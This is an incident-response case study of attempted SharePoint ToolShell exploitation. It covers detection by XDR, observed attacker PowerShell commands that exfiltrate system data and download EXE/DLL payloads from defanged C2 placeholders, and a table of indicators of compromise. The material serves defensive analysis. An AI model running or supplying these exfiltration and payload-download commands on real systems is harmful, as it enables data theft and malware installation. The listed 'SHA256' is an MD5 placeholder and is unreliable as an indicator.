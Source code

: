 # Case Study 001 - SharePoint ToolShell Exploitation Attempt (CVE-2025-49706, CVE-2025-53770, CVE-2025-49704)

> - **Severity:** High
> - **Date:** July 2025
> - **Framework:** MITRE ATT&CK - T1190 Exploit Public-Facing Application


## Overview
The SharePoint ToolShell vulnerabilities include a chain of critical flaws disclosed in 2025.

- **[CVE-2025-49706](https://nvd.nist.gov/vuln/detail/CVE-2025-49706 "https://nvd.nist.gov/vuln/detail/CVE-2025-49706")** allows attackers to bypass authentication mechanisms.
- **[CVE-2025-49704](https://nvd.nist.gov/vuln/detail/CVE-2025-49704 "https://nvd.nist.gov/vuln/detail/CVE-2025-49704")** enables arbitrary file writes, which can be leveraged to achieve remote code execution without valid credentials.
- Two additional variants, **CVE-2025-53771** (derived from CVE-2025-49706) and [CVE-2025-53770](https://nvd.nist.gov/vuln/detail/CVE-2025-53770 "https://nvd.nist.gov/vuln/detail/CVE-2025-53770") (derived from CVE-2025-49704), were later identified through fuzzing research.

Together, these vulnerabilities present a high-risk attack surface where unauthenticated adversaries can gain full control of vulnerable SharePoint instances.

## Detection & Analysis
- Initial alert triggered in **Stellar Cyber XDR** (High Severity).
- **Correlated telemetry:** Microsoft Defender for Endpoint indicated `w3wp.exe` (IIS worker) spawning PowerShell and `cmd.exe` processes consistent with post-exploit activity.

#### Observed command patterns (sanitized):
 ``` 
 # Data-exfil / reconnaissance via HTTP POST
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(systeminfo)
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(whoami)
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(type C:\ProgramData\defender.log)
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(dir C:\Users\[SERVICE_ACCOUNT]\AppData\Local\)

# Artifact download / drop
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_IP]:10888/1 -OutFile C:\Users\[SERVICE_ACCOUNT]\AppData\Local\SPDesk.exe
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_IP]:10888/2 -OutFile C:\Users\[SERVICE_ACCOUNT]\AppData\Local\log.dll
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_IP]:10888/3 -OutFile C:\Users\[SERVICE_ACCOUNT]\AppData\Local\Product.Wsc.dll

# Backgrounding / chained command examples (sanitized)
cmd.exe /c powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(appcmmd list sites) &
cmd.exe /c ping -n 1 google.com
 ```

## Analysis Summary
- Command patterns show **three clear attacker behaviours**: (1) reconnaissance / local information collection (e.g., `systeminfo`, `whoami`, directory listings), (2) exfiltration of collected data via HTTP POST to remote host(s), and (3) downloading and writing executable and DLL artifacts into a web-app context (`AppData\Local`) — consistent with attempts to achieve **RCE / persistence** in a SharePoint web directory.
    
- Several requests used plain HTTP (no TLS) and predictable endpoints, indicating opportunistic PoC-style weaponization.
    
- Encoded or obfuscated payloads (e.g., `-enc` / `-EncodedCommand`) were observed in related alerts (patterned as `powershell.exe -enc ...`), suggesting attempts to evade simple detection.

## Indicators of Compromise (IOCs)

> Suspicious activity consistent with potential exploitation of a SharePoint vulnerability was observed on a SharePoint host. Multiple alerts reported unusual DLL and ASPX files being deployed within the SharePoint web directory, indicating possible remote code execution (RCE).

| Type       | Value / Pattern                                  | Notes / Context                                             |
| ---------- | ------------------------------------------------ | ----------------------------------------------------------- |
| IP Address | `45.136.197.24`                                  | Observed serving payloads over HTTP on TCP port 10888       |
| IP Address | `179.43.141.208`                                 | Observed connecting from external host                      |
| IP Address | `38.47.124.201`                                  | Observed connecting from external host                      |
| Domain     | `hxxp://mpf1oyds.requestrepo[.]com`              | Command-and-control / exfil endpoint (obfuscated for share) |
| File Hash  | `d41d8cd98f00b204e9800998ecf8427e`               | Example SHA256 (replace with actual hash for internal use)  |
| Process    | `w3wp.exe → powershell.exe`                      | IIS worker spawning PowerShell (parent→child execution)     |
| File Path  | `C:\Users\[SERVICE_ACCOUNT]\AppData\Local\*.dll` | Dropped DLLs/EXEs written into service account local dir    |
| URL        | `hxxp://[C2_DOMAIN]/<path>`                      | Exploit/delivery endpoints; use `hxxp` for safe sharing     |

